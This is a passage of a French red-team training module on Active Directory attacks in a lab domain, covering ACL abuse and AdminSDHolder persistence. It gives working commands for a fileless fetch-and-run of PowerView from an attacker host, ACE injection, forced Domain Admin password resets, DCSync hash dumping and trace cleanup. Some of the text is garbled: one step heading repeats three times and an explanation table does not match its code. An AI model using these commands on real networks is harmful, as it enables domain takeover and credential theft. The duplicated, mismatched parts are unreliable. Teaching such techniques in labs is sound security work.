

# Module 9 — Attaques Avancées Active Directory

**Niveau** : M9 (Red Team)  
**Durée estimée** : 1h30 (cours) + 2h30 (TP)  
**Lab** : Domaine AD `redteam.lab` (DC01, SRV01, WS01)  
**Tags MITRE ATT&CK** : T1098, T1222, T1558.001, T1558.002, T1098, T1207, T1484, T1558.003

---

## Table des matières

1. [ACL Abuse (T1098 / T1222)](#1-acl-abuse-t1098--t1222)
2. [AdminSDHolder / SDProp (T1098)](#2-adminsdholder--sdprop-t1098)
3. [Golden Ticket (T1558.001)](#3-golden-ticket-t1558001)
4. [Silver Ticket (T1558.002)](#4-silver-ticket-t1558002)
5. [Diamond Ticket](#5-diamond-ticket)
6. [Skeleton Key (T1098)](#6-skeleton-key-t1098)
7. [DCShadow (T1207)](#7-dcshadow-t1207)
8. [Trust Attacks (T1484)](#8-trust-attacks-t1484)
9. [Active Directory Certificate Services (ADCS) Abuse](#9-active-directory-certificate-services-adcs-abuse)
10. [Kerberos Delegation Abuse (T1558)](#10-kerberos-delegation-abuse-t1558)
11. [TP Synthèse](#11-tp-synthèse)
12. [Annexes](#12-annexes)

---

## 1. ACL Abuse (T1098 / T1222)

### 1.1 Comprendre les ACL Active Directory

Active Directory stocke les permissions sur chaque objet sous forme de **Discretionary Access Control List (DACL)**. Une DACL est une liste d'**Access Control Entries (ACE)** qui définissent qui peut faire quoi sur un objet.

#### Structure d'un objet AD avec ACL

```
Objet: CN=john.doe,CN=Users,DC=redteam,DC=lab
├── DACL
│   ├── ACE 1: S-1-5-21-...-500 (Domain Admin)  → GenericAll
│   ├── ACE 2: S-1-5-21-...-1103 (Domain Users)  → ReadProperty
│   ├── ACE 3: S-1-5-21-...-1104 (IT_Sec)       → WriteProperty (pwdLastSet)
│   └── ACE 4: S-1-5-21-...-1105 (jdoe)         → Self (WriteOwner)
└── SACL (audit)
```

Chaque ACE contient :
- **Trustee** : le SID du groupe/utilisateur qui a la permission
- **Access Mask** : le type de permission (GenericAll, GenericWrite, etc.)
- **Object Type** : éventuellement le GUID d'une propriété spécifique
- **Inheritance** : propagation aux enfants

#### Permissions critiques

| Permission | GUID | Impact |
|------------|------|--------|
| **GenericAll** (0x1F01FF) | — | Contrôle total sur l'objet |
| **GenericWrite** (0x120116) | — | Modifier les attributs de l'objet |
| **WriteOwner** | — | Prendre possession de l'objet |
| **WriteDACL** | — | Modifier la DACL (ajouter des droits) |
| **ForceChangePassword** | `00299570-246d-11d0-a768-00aa006e0529` | Changer le mot de passe sans l'ancien |
| **AllExtendedRights** | `00000000-0000-0000-0000-000000000000` | Tous les droits étendus |
| **AddMember** | `bf9679c0-0de6-11d0-a285-00aa003049e2` | Ajouter un membre à un groupe |

#### Lecture des permissions avec PowerShell

```powershell
# Lire la DACL (Discretionary Access Control List) d'un objet utilisateur AD
# Get-Acl : applet PowerShell standard pour lire les ACL
# -Path "AD:..." : chemin Active Directory Provider (module ActiveDirectory requis)
# Select-Object -ExpandProperty Access : déroule la liste des ACE (Access Control Entries)
# Format-Table : affiche sous forme de tableau
#   IdentityReference : qui (utilisateur/groupe) possède la permission
#   ActiveDirectoryRights : quel droit (GenericAll, ReadProperty, etc.)
#   IsInherited : la permission est-elle héritée d'un conteneur parent ?
Get-Acl -Path "AD:CN=john.doe,CN=Users,DC=redteam,DC=lab" | 
    Select-Object -ExpandProperty Access |
    Format-Table IdentityReference, ActiveDirectoryRights, IsInherited
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `Get-Acl` | Applet PowerShell qui récupère la DACL d'un objet Active Directory |
| `-Path "AD:..."` | Chemin AD Provider pointant vers l'objet (CN=john.doe, dans le conteneur Users, domaine redteam.lab) |
| `Select-Object -ExpandProperty Access` | Décompresse la propriété `Access` qui contient le tableau des ACE |
| `Format-Table IdentityReference, ActiveDirectoryRights, IsInherited` | Affiche trois colonnes : le trustee (SID résolu en nom), le droit effectif, et si l'ACE est héritée |
| `IdentityReference` | Le SID de l'utilisateur/groupe converti en nom NT (ex: `REDTEAM\Domain Admins`) |
| `ActiveDirectoryRights` | Le masque de permission (GenericAll = 0x1F01FF, GenericWrite = 0x120116) |
| `IsInherited` | Booléen indiquant si l'ACE provient d'un objet parent (OU, conteneur) par héritage |

### 1.2 Abus de permissions pas à pas

#### Scénario : GenericAll sur un utilisateur

Si notre utilisateur `alice` a `GenericAll` sur l'utilisateur `bob.admin`, on peut :
1. Changer le mot de passe de `bob.admin`
2. Réinitialiser son mot de passe
3. Modifier son appartenance aux groupes (si `bob.admin` est dans Domain Admins)

#### Scénario : GenericWrite sur un utilisateur

Avec `GenericWrite`, on ne peut pas réinitialiser le mot de passe directement, mais on peut :
- Modifier le `servicePrincipalName` (SPN) → Kerberoasting
- Modifier le `scriptPath` → exécution au logon
- Modifier `msDS-AllowedToDelegateTo` → Resource-Based Constrained Delegation

#### Scénario : WriteDACL sur un groupe

Avec `WriteDACL` sur le groupe `Domain Admins`, on peut s'ajouter `GenericAll` sur ce groupe, puis s'ajouter comme membre.

### 1.3 BloodHound : trouver les ACL abusables

BloodHound est l'outil de référence pour cartographier les relations AD. Parmi les requêtes utiles :

```cypher
# Trouver tous les utilisateurs avec GenericAll sur un autre utilisateur
MATCH (u:User)-[:GenericAll]->(target:User)
RETURN u.name, target.name
```

```cypher
# Trouver les ACL menant à Domain Admin
MATCH (u:User)-[:GenericAll|GenericWrite|WriteOwner|WriteDACL|ForceChangePassword]->(g:Group)
WHERE g.name = "DOMAIN ADMINS@REDTEAM.LAB"
RETURN u.name, g.name
```

```cypher
# Chemin complet de ACL abuse
MATCH p = (u:User)-[:GenericAll|GenericWrite|ForceChangePassword*1..]->(target:Group)
WHERE target.name = "DOMAIN ADMINS@REDTEAM.LAB"
RETURN p
```

#### Mapping permission → BloodHound Edge

| ACL | Edge BloodHound | Impact |
|-----|-----------------|--------|
| GenericAll | `GenericAll` | Full control |
| GenericWrite | `GenericWrite` | Write attributes |
| WriteOwner | `WriteOwner` | Take ownership |
| WriteDACL | `WriteDacl` | Modify ACL |
| ForceChangePassword | `ForceChangePassword` | Reset password (user) |
| AddMember | `AddMember` | Add user to group |
| AllExtendedRights | `AllExtendedRights` | All extended rights |

### 1.4 PowerView (PowerSploit)

#### Installation et chargement

```bash
# === PRÉPARATION (sur Kali, terminal séparé) ===
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
python3 -m http.server 8080 &
# Puis sur Windows, adapter l'IP de Kali :
# IEX (New-Object Net.WebClient).DownloadString('http://10.0.1.10:8080/PowerView.ps1')
```

```powershell
# Téléchargement et import de PowerView (outil de reconnaissance AD avancée)
# IEX (Invoke-Expression) : exécute le script téléchargé directement en mémoire (fileless)
# New-Object Net.WebClient : crée un client HTTP pour télécharger le script
# DownloadString('http://kali:8080/PowerView.ps1') : télécharge le script depuis le serveur Kali de l'attaquant
# Évite l'écriture sur disque, contourne les signatures AV basées sur fichier
IEX (New-Object Net.WebClient).DownloadString('http://kali:8080/PowerView.ps1')

# Ou chargement local (si déjà téléchargé)
# Import-Module : charge le module PowerShell depuis une source locale ou réseau
Import-Module .\PowerView.ps1
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `IEX(...)` | Invoke-Expression : exécute une chaîne comme du code PowerShell. Utilisé pour les téléchargements fileless |
| `New-Object Net.WebClient` | Instancie `System.Net.WebClient` pour effectuer des requêtes HTTP/S |
| `DownloadString(...)` | Télécharge le contenu textuel d'une URL. Ici, PowerView.ps1 hébergé sur Kali |
| `Import-Module .\PowerView.ps1` | Importe le script PowerView comme module, rendant ses fonctions (Get-ObjectAcl, Add-ObjectAcl, etc.) disponibles |

#### Get-ObjectAcl — Énumération des ACL

```powershell
# Récupérer la DACL d'un utilisateur avec PowerView
# Get-ObjectAcl : fonction PowerView qui interroge les ACL AD
# -Identity "john.doe" : cible l'utilisateur (SAMAccountName ou DN)
# Retourne chaque ACE avec SecurityIdentifier (SID), ActiveDirectoryRights, ObjectDN, etc.
Get-ObjectAcl -Identity "john.doe"

# Récupérer la DACL avec résolution SID (convertir les SIDs en noms lisibles)
# Select-Object : crée une propriété calculée "Trustee" qui résout le SID via Convert-SidToName
# $_.SecurityIdentifier : propriété contenant le SID du trustee (hérité de l'objet ACE)
# Convert-SidToName : fonction PowerView qui interroge AD pour résoudre SID → NTAccount
# ActiveDirectoryRights : type de droit (GenericAll, WriteProperty, etc.)
# AccessControlType : Allow (autorisation) ou Deny (refus)
Get-ObjectAcl -Identity "john.doe" | 
    Select-Object @{n="Trustee";e={Convert-SidToName $_.SecurityIdentifier}},
                  ActiveDirectoryRights,
                  AccessControlType

# Chercher des ACL abusables sur tout le domaine (analyse de surface d'attaque)
# -ResolveGUIDs : résout les GUIDs des propriétés en noms lisibles (ex: pwdLastSet au lieu de {00299570-...})
# Where-Object : filtre les ACE dont les droits correspondent à des permissions critiques pour l'escalade
# -match "GenericAll|GenericWrite|WriteDacl|WriteOwner" : regex filtrant les 4 droits les plus dangereux
# ObjectDN : Distinguished Name complet de l'objet concerné (ex: CN=john.doe,CN=Users,DC=redteam,DC=lab)
Get-ObjectAcl -ResolveGUIDs | 
    Where-Object {
        $_.ActiveDirectoryRights -match "GenericAll|GenericWrite|WriteDacl|WriteOwner"
    } |
    Select-Object IdentityReference, ActiveDirectoryRights, ObjectDN
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `Get-ObjectAcl -Identity "john.doe"` | Fonction PowerView. Lit la DACL d'un objet AD (par SAMAccountName, DN ou GUID) |
| `-ResolveGUIDs` | Traduit les GUIDs des Extended Rights en noms compréhensibles (ex: `ForceChangePassword` au lieu de `00299570-246d-11d0-a768-00aa006e0529`) |
| `Convert-SidToName $_.SecurityIdentifier` | Résout un SID (ex: `S-1-5-21-...-500`) en nom de domaine (ex: `REDTEAM\Administrator`) |
| `Select-Object @{n="...";e={...}}` | Crée une propriété calculée : `n` = nom d'affichage, `e` = expression PowerShell |
| `Where-Object { $_.ActiveDirectoryRights -match "..." }` | Filtre les résultats selon une regex sur le type de droit AD |
| `AccessControlType` | Type de contrôle : `Allow` (autorisation) ou `Deny` (refus explicite) |
| `ObjectDN` | Distinguished Name complet de l'objet cible de l'ACE |

#### Add-ObjectAcl — Ajout de permissions

```powershell
# S'ajouter GenericAll sur un utilisateur cible via PowerView
# Add-ObjectAcl : modifie la DACL d'un objet AD pour ajouter une ACE
# -TargetSamAccountName "bob.admin" : l'objet cible dont on modifie la DACL
# -PrincipalSamAccountName "alice" : l'utilisateur (trustee) qui reçoit la permission
# -Rights All : équivaut à GenericAll (controle total : lire, écrire, modifier ACL, changer propriétaire)
# Résultat : alice peut désormais réinitialiser le mot de passe de bob, modifier ses attributs, etc.
Add-ObjectAcl -TargetSamAccountName "bob.admin" -PrincipalSamAccountName "alice" -Rights All

# S'ajouter le droit d'ajouter des membres à un groupe
# -TargetSamAccountName "Domain Admins" : groupe cible (le plus privilégié du domaine)
# -PrincipalSamAccountName "alice" : trustee qui reçoit le droit d'ajouter des membres
# -Rights "WriteMembers" : droit spécifique pour modifier la liste des membres du groupe
# Résultat : alice peut s'ajouter elle-même (ou n'importe qui) dans Domain Admins
Add-ObjectAcl -TargetSamAccountName "Domain Admins" -PrincipalSamAccountName "alice" -Rights "WriteMembers"
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `Add-ObjectAcl` | Fonction PowerView qui ajoute une ACE à la DACL d'un objet AD |
| `-TargetSamAccountName` | SAMAccountName de l'objet cible (utilisateur, groupe, ordinateur) dont on modifie les permissions |
| `-PrincipalSamAccountName` | Utilisateur/groupe qui reçoit la permission (le bénéficiaire / trustee) |
| `-Rights All` | Confère GenericAll (0x1F01FF) = contrôle total : Read, Write, CreateChild, DeleteChild, DeleteTree, ListChildren, Self, WriteDACL, WriteOwner |
| `-Rights "WriteMembers"` | Confère le droit de modifier la liste des membres d'un groupe (AddMember / RemoveMember) |

#### Set-DomainUserPassword — Changer le mot de passe

```powershell
# Via PowerView avec les droits suffisants (GenericAll, ForceChangePassword ou WriteDACL)
# Set-DomainUserPassword : fonction PowerView pour réinitialiser le mot de passe d'un utilisateur AD
# -Identity "bob.admin" : utilisateur cible dont on change le mot de passe
# -AccountPassword : nouveau mot de passe, passé sous forme de SecureString
# ConvertTo-SecureString : convertit une chaîne en clair en objet SecureString PowerShell
#   "P@ssw0rd123!" : le nouveau mot de passe en clair
#   -AsPlainText : indique que la chaîne source est en texte clair
#   -Force : supprime la confirmation interactive
# Attention : cette opération est bruyante (event ID 4724 - réinitialisation de mot de passe)
Set-DomainUserPassword -Identity "bob.admin" -AccountPassword (ConvertTo-SecureString "P@ssw0rd123!" -AsPlainText -Force)
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `Set-DomainUserPassword` | Fonction PowerView. Modifie le mot de passe d'un utilisateur AD (nécessite GenericAll, ForceChangePassword ou WriteDACL sur la cible) |
| `-Identity "bob.admin"` | SAMAccountName ou DN de l'utilisateur cible |
| `-AccountPassword (...)` | Nouveau mot de passe encapsulé dans un SecureString PowerShell |
| `ConvertTo-SecureString` | Convertit une chaîne claire en SecureString (objet chiffré en mémoire) |
| `-AsPlainText` | Spécifie que l'entrée est en texte clair (évite de lire depuis un fichier) |
| `-Force` | Force l'opération sans confirmation interactive |

### 1.5 Impacket dacledit.py

Impacket fournit `dacledit.py` pour manipuler les DACL à distance depuis Linux.

```bash
# Syntaxe générale de dacledit.py (outil Impacket pour manipuler les DACL AD depuis Linux)
# -action <read|write> : lire ou écrire la DACL
# -target <DN> : Distinguished Name de l'objet cible
# -principal <DN> : Distinguished Name du trustee (bénéficiaire de la permission)
# <domain>/<user>:<password> : credentials d'authentification au domaine
dacledit.py -action <read|write> -target <DN> -principal <DN> <domain>/<user>:<password>

# Lecture de la DACL d'un utilisateur (énumération des permissions sans modification)
# -action read : mode lecture seule, affiche toutes les ACE de l'objet cible
# --target "CN=bob admin,CN=Users,DC=redteam,DC=lab" : cible = bob.admin dans le conteneur Users
# "redteam.lab"/"alice":"Passw0rd!" : s'authentifie en tant qu'alice pour lire la DACL
# Sortie typique : liste des ACE avec trustee, masque de droits, héritage, etc.
dacledit.py -action read \
    -target "CN=bob admin,CN=Users,DC=redteam,DC=lab" \
    "redteam.lab"/"alice":"Passw0rd!"

# Ajout de GenericAll sur un utilisateur (modification critique de la DACL)
# -action write : mode écriture, ajoute/modifie une ACE dans la DACL
# -target "CN=bob admin,..." : objet cible (bob.admin) dont la DACL sera modifiée
# -principal "CN=alice,..." : trustee qui reçoit la permission (alice)
# -grant "GenericAll" : permission à ajouter = GenericAll (contrôle total)
# Résultat : alice obtient le contrôle total sur bob.admin (peut changer son mot de passe, etc.)
dacledit.py -action write \
    -target "CN=bob admin,CN=Users,DC=redteam,DC=lab" \
    -principal "CN=alice,CN=Users,DC=redteam,DC=lab" \
    -grant "GenericAll" \
    "redteam.lab"/"alice":"Passw0rd!"
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `dacledit.py` | Outil d'Impacket pour lire et modifier les DACL Active Directory à distance sur le port 389 (LDAP) |
| `-action read` | Mode lecture : affiche les ACE existantes sans modification (équivalent de Get-ObjectAcl) |
| `-action write` | Mode écriture : ajoute, modifie ou révoque des ACE dans la DACL |
| `-target "CN=...,..."` | Distinguished Name de l'objet AD dont on lit ou modifie la DACL |
| `-principal "CN=...,..."` | Distinguished Name du trustee qui reçoit ou perd la permission |
| `-grant "GenericAll"` | Permission à ajouter (GenericAll, GenericWrite, WriteDacl, etc.) |
| `-revoke` | Permission à retirer (inverse de grant) |
| `"redteam.lab"/"alice":"Passw0rd!"` | Format d'authentification Impacket : `domaine/utilisateur:mot_de_passe` |

#### Paramètres importants

| Paramètre | Description |
|-----------|-------------|
| `-action read/write` | Lire ou écrire la DACL |
| `-target` | Distinguished Name de l'objet cible |
| `-principal` | Distinguished Name du trustee (bénéficiaire) |
| `-grant` | Permission à ajouter (GenericAll, GenericWrite, WriteDacl) |
| `-revoke` | Permission à retirer |

### 1.6 TP guidé : Abuser d'un ACE GenericAll pour devenir admin

#### Objectif
Partant de l'utilisateur `alice` qui a `GenericAll` sur `bob.admin` (membre de Domain Admins), récupérer un accès Domain Admin.

#### Étape 1 : Énumération avec BloodHound

```bash
# Collecte des données AD avec BloodHound Python (ingestor)
# bloodhound-python : ingestor BloodHound écrit en Python, collecte les données AD pour analyse
# -u alice : nom d'utilisateur pour l'authentification
# -p 'Passw0rd!' : mot de passe de l'utilisateur
# -d redteam.lab : domaine AD cible
# -dc dc01.redteam.lab : nom du contrôleur de domaine à interroger
# -ns 192.168.56.10 : serveur DNS à utiliser (obligatoire si le domaine n'est pas résoluble)
# -c all : collecte toutes les catégories de données (Group, Session, ACL, Trusts, etc.)
# Les fichiers JSON générés sont importés dans l'interface BloodHound Neo4j pour analyse graphique
bloodhound-python -u alice -p 'Passw0rd!' -d redteam.lab -dc dc01.redteam.lab -ns 192.168.56.10 -c all
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `bloodhound-python` | Ingestor BloodHound (projet BloodHound.py) qui collecte les métadonnées AD via LDAP, SAM-R, etc. |
| `-u alice` | SAMAccountName de l'utilisateur pour l'authentification LDAP |
| `-p 'Passw0rd!'` | Mot de passe en clair (attention : visible dans l'historique) |
| `-d redteam.lab` | Nom de domaine complet (FQDN) |
| `-dc dc01.redteam.lab` | Contrôleur de domaine à contacter |
| `-ns 192.168.56.10` | Nameserver DNS (parfois nécessaire en lab pour résoudre les noms AD) |
| `-c all` | Collection flags : `Group`, `Session`, `ACL`, `Trusts`, `LocalAdmin`, `RDP`, `DCOM`, `PSRemote` |

Ouvrir BloodHound, importer les fichiers JSON, puis :

```cypher
// Requête : trouver le plus court chemin vers Domain Admin
MATCH p = shortestPath((u:User)-[:GenericAll|GenericWrite|ForceChangePassword*1..]->(g:Group))
WHERE u.name = "ALICE@REDTEAM.LAB" 
  AND g.name = "DOMAIN ADMINS@REDTEAM.LAB"
RETURN p
```

#### Étape 2 : Réinitialisation du mot de passe de bob.admin

```bash
# Via Impacket (net rpc password) : change le mot de passe via le protocole RPC (SAMR)
# "bob admin" : SAMAccountName de l'utilisateur cible (avec espace pour les noms composés)
# "Hacked123!" : nouveau mot de passe à définir
# -U "redteam.lab"/"alice"%"Passw0rd!" : credentials de l'attaquant au format domaine/utilisateur%mdp
# -S "dc01.redteam.lab" : serveur cible (le DC qui héberge le service SAMR)
# Équivalent Linux de Set-DomainUserPassword — fonctionne même sans machine Windows
net rpc password "bob admin" "Hacked123!" -U "redteam.lab"/"alice"%"Passw0rd!" -S "dc01.redteam.lab"

# Ou via PowerView (si on est sur une machine du domaine)
# -Credential $cred : utilise des credentials alternatifs (évite le double-hop) 
Set-DomainUserPassword -Identity "bob.admin" -AccountPassword (ConvertTo-SecureString "Hacked123!" -AsPlainText -Force) -Credential $cred
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `net rpc password` | Commande Samba/Impacket qui change un mot de passe AD via l'interface RPC SAMR (port 445) |
| `"bob admin"` | Nom du compte cible (SAMAccountName, avec guillemets à cause de l'espace) |
| `"Hacked123!"` | Nouveau mot de passe en clair |
| `-U "redteam.lab"/"alice"%"Passw0rd!"` | Credentials au format `domaine/utilisateur%mot_de_passe` |
| `-S "dc01.redteam.lab"` | Serveur distant qui exécute le service SAMR (généralement le PDC) |
| `Set-DomainUserPassword -Credential $cred` | PowerView avec credentials explicites (évite les problèmes de double-hop Kerberos) |

#### Étape 3 : Utilisation du compte

```bash
# Vérifier les droits avec le compte bob.admin (confirmer l'accès administrateur)
# crackmapexec : outil de post-exploitation pour évaluer les accès SMB/WinRM/SSH
# smb : protocole à tester (SMB sur port 445)
# dc01.redteam.lab : cible (le contrôleur de domaine)
# -u "bob admin" : nom d'utilisateur avec lequel s'authentifier
# -p "Hacked123!" : mot de passe (le nouveau mot de passe qu'on vient de définir)
# Sortie attendue : "Pwn3d!" si le compte est administrateur local du DC
crackmapexec smb dc01.redteam.lab -u "bob admin" -p "Hacked123!"

# Dump des hashes via DCSync (technique de réplication AD)
# impacket-secretsdump : extrait les hashes NTLM de la base NTDS.dit via DRS (Directory Replication Service)
# "redteam.lab"/"bob admin":"Hacked123!"@dc01.redteam.lab : credentials + serveur cible
# DCSync simule une réplication entre DCs pour obtenir tous les hashs du domaine
# Permet de récupérer : hash KRBTGT (Golden Ticket), hash de tous les utilisateurs, etc.
impacket-secretsdump "redteam.lab"/"bob admin":"Hacked123!"@dc01.redteam.lab
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `crackmapexec smb` | Outil multi-protocole pour évaluer les privilèges d'un compte sur des machines distantes |
| `-u "bob admin"` | Nom d'utilisateur pour l'authentification SMB |
| `-p "Hacked123!"` | Mot de passe associé |
| `impacket-secretsdump` | Outil d'Impacket qui implémente l'attaque DCSync (DRSGetNCChanges) |
| `"domaine"/"user":"pass"@serveur` | Format : domaine, credentials et serveur cible |
| `@dc01.redteam.lab` | Contrôleur de domaine à interroger via DRSUAPI (port 135/445) |

#### Étape 4 : Nettoyage des traces

#### Étape 4 : Nettoyage des traces

```powershell
# Remettre le mot de passe d'origine (opération défensive / nettoyage de traces)
# Important : restaurer l'état initial après l'attaque pour ne pas éveiller les soupçons
# Set-DomainUserPassword : même commande qu'à l'étape 2, mais avec le mot de passe d'origine
# "OriginalPass123!" : mot de passe d'origine de bob.admin (à connaître avant l'attaque)
# -AsPlainText -Force : mêmes options que précédemment pour la conversion en SecureString
Set-DomainUserPassword -Identity "bob.admin" -AccountPassword (ConvertTo-SecureString "OriginalPass123!" -AsPlainText -Force)
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `crackmapexec smb` | Outil multi-protocole pour évaluer les privilèges d'un compte sur des machines distantes |
| `-u "bob admin"` | Nom d'utilisateur pour l'authentification SMB |
| `-p "Hacked123!"` | Mot de passe associé |
| `impacket-secretsdump` | Outil d'Impacket qui implémente l'attaque DCSync (DRSGetNCChanges) |
| `"domaine"/"user":"pass"@serveur` | Format : domaine, credentials et serveur cible |
| `@dc01.redteam.lab` | Contrôleur de domaine à interroger via DRSUAPI (port 135/445) |
| `Set-DomainUserPassword` | Modification du mot de passe AD (nécessite les droits suffisants sur la cible) |

#### Étape 4 : Nettoyage des traces

### ACL — Tableau récapitulatif des abus

| Permission | Type d'objet | Action possible |
|-----------|-------------|-----------------|
| GenericAll | Utilisateur | Changer mot de passe, modifier attributs |
| GenericAll | Groupe | Ajouter un membre |
| GenericAll | Ordinateur | RBCD via msDS-AllowedToActOnBehalfOfOtherIdentity |
| GenericWrite | Utilisateur | Ajouter SPN → Kerberoasting |
| GenericWrite | Ordinateur | RBCD |
| WriteOwner | Groupe | Prendre ownership → WriteDACL → AddMember |
| WriteDACL | Groupe | S'ajouter GenericAll sur le groupe |
| ForceChangePassword | Utilisateur | Réinitialiser le mot de passe |
| AllExtendedRights | Utilisateur | ForceChangePassword + autres droits étendus |

---

## 2. AdminSDHolder / SDProp (T1098)

### 2.1 Principe : protéger les comptes privilégiés

Active Directory possède un mécanisme de protection automatique appelé **AdminSDHolder** (Admin SD Holder). Ce conteneur spécial (CN=AdminSDHolder,CN=System,DC=redteam,DC=lab) définit un modèle de DACL qui est appliqué périodiquement aux comptes privilégiés.

#### Processus SDProp

```
┌─────────────┐     Toutes les 60 min      ┌──────────────────┐
│ AdminSDHolder │ ─────────────────────────→│ Comptes protégés  │
│ (modèle ACL)  │    (SDProp)               │                   │
└─────────────┘                             │ • Domain Admins   │
                                            │ • Enterprise Admins│
                                            │ • Administrators  │
                                            │ • Schema Admins   │
                                            │ • Opérateurs      │
                                            │ • krbtgt          │
                                            └──────────────────┘
```

**SDProp** (Security Descriptor Propagator) est un processus qui s'exécute toutes les **60 minutes** sur le PDC Emulator. Il compare la DACL de l'AdminSDHolder avec celle des groupes/followers protégés et écrase toute modification sur ces derniers.

#### Groupes protégés par défaut

- Administrators
- Account Operators
- Backup Operators
- Domain Admins
- Enterprise Admins
- Domain Controllers
- Print Operators
- Read-only Domain Controllers
- Replicator
- Schema Admins
- Server Operators

### 2.2 Abus : modifier l'AdminSDHolder

Le principe de l'attaque est simple : si on a les droits **WriteDACL** ou **GenericAll** sur le conteneur `AdminSDHolder`, on peut modifier son modèle de sécurité. Dans les 60 minutes suivantes, SDProp appliquera ces permissions à **tous les comptes protégés**, y compris Domain Admins.

#### Étape 1 : Vérifier les permissions actuelles

```powershell
# Lire la DACL de l'AdminSDHolder (modèle de sécurité appliqué aux comptes protégés)
# Get-Acl -Path "AD:CN=AdminSDHolder,CN=System,DC=redteam,DC=lab" : lit la DACL du conteneur AdminSDHolder
# CN=AdminSDHolder : conteneur spécial dans CN=System du domaine
# Select-Object -ExpandProperty Access : affiche la liste des ACE (Access Control Entries)
# Format-Table IdentityReference, ActiveDirectoryRights, AccessControlType :
#   IdentityReference : qui a la permission (SID résolu)
#   ActiveDirectoryRights : quel droit (GenericAll, WriteDACL, etc.)
#   AccessControlType : Allow (autorisé) ou Deny (refusé)
# Objectif : vérifier si notre utilisateur (ou un attaquant) a déjà WriteDACL/GenericAll sur AdminSDHolder
Get-Acl -Path "AD:CN=AdminSDHolder,CN=System,DC=redteam,DC=lab" | 
    Select-Object -ExpandProperty Access |
    Format-Table IdentityReference, ActiveDirectoryRights, AccessControlType
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `Get-Acl -Path "AD:CN=AdminSDHolder,..."` | Lit la DACL du conteneur AdminSDHolder via le provider AD |
| `CN=AdminSDHolder,CN=System` | Chemin LDAP du conteneur protégé (sous CN=System) |
| `Select-Object -ExpandProperty Access` | Extrait et décompresse la liste des ACE |
| `AccessControlType` | `Allow` (permission accordée) ou `Deny` (refus explicite) |
| `Format-Table` | Affiche les résultats sous forme de tableau lisible |

#### Étape 2 : Ajouter un utilisateur avec Full Control

```powershell
# Avec PowerView — ajouter notre utilisateur avec GenericAll sur AdminSDHolder
# Add-ObjectAcl : fonction PowerView pour ajouter une ACE sur un objet AD
# -TargetName "AdminSDHolder" : nom de l'objet cible (AdminSDHolder)
# -TargetADServer "CN=System,DC=redteam,DC=lab" : conteneur parent de l'objet cible
# -PrincipalSamAccountName "alice" : trustee qui reçoit GenericAll
# -Rights All : GenericAll (contrôle total sur le conteneur AdminSDHolder)
# -Verbose : affiche les détails de l'opération
# Résultat : dans 60 min (ou après forçage SDProp), alice aura GenericAll sur TOUS les comptes protégés
Add-ObjectAcl -TargetName "AdminSDHolder" -TargetADServer "CN=System,DC=redteam,DC=lab" -PrincipalSamAccountName "alice" -Rights All -Verbose

# Alternative avec le module ActiveDirectory (sans PowerView)
$path = "AD:CN=AdminSDHolder,CN=System,DC=redteam,DC=lab"  # Chemin AD du conteneur cible
$acl = Get-Acl $path  # Récupère la DACL actuelle de l'AdminSDHolder
$identity = [System.Security.Principal.NTAccount]"redteam\alice"  # Trustee sous forme de NTAccount (domaine\utilisateur)
$adRights = [System.DirectoryServices.ActiveDirectoryRights]"GenericAll"  # Type de droit : GenericAll
$type = [System.Security.AccessControl.AccessControlType]"Allow"  # Type d'ACE : Allow (autorisation)
$ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule($identity, $adRights, $type)  # Crée la nouvelle ACE
$acl.AddAccessRule($ace)  # Ajoute l'ACE à la DACL en mémoire
Set-Acl -Path $path -AclObject $acl  # Applique la DACL modifiée à l'objet AD (écriture sur le DC)
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `Add-ObjectAcl -TargetName "AdminSDHolder"` | PowerView : ajoute une ACE sur l'objet AdminSDHolder |
| `-TargetADServer "CN=System,..."` | Conteneur parent pour localiser l'objet cible (ADSearchBase) |
| `-PrincipalSamAccountName "alice"` | Bénéficiaire de la permission |
| `-Rights All` | GenericAll (0x1F01FF) — contrôle total |
